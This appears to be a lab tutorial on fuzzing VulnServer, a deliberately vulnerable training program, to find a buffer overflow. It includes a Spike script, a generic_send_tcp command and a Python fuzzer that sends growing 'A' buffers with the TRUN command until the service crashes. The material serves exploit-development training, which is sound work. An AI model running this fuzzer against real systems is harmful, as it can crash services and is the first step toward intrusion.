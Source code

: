 to look for a flawed program use the command: generic_send_tcp and make a Spike script.

```
Stats.spk:
s_readline():			
s_string(STATS :):		# STATS is the command we are trying to break here. 
s_string_variable(“0”):	
```

```
# generic_send_tcp <Windows-IP> <port#> stats.spk 0 0
```
Check Immunity Debugger to see when it caused an error. 
Each time an error is cause you will need to restart both VulnServer and Immunity Debugger as administrator, or you may have some issues. 
Check the EBP for 41414141 meaning it over wrote it will A’s to verify we can buffer overflow. You may also see that you over wrote the ESP and EIP. 


If you look at the EAX register ASCII you will notice 
```
EAX 0102F1E8 ASCII TRUN /.:/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
```

This tells us that when we Fuzz the program we will have to use 
```
TRUN /.:/
```

## Fuzzing: 

#### Kali Linux: 

create python script fuzz.py

```
#!/usr/bin/python

import sys, socket
from time import sleep

buffer = 'A' * 100

while True:
    try: 
            s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect(('192.168.1.90',9999))                    # change to match the IP and port# of the application you are fuzzing

            s.send(('TRUN /..:/' + buffer))                     # change TRUN to be the command you are Fuzzing
            s.close()
            sleep(1)
            buffer = buffer + "A"*100

    except: 
            print "Fuzzing crashed at %s bytes" % str(len(buffer))
            sys.exit()
```
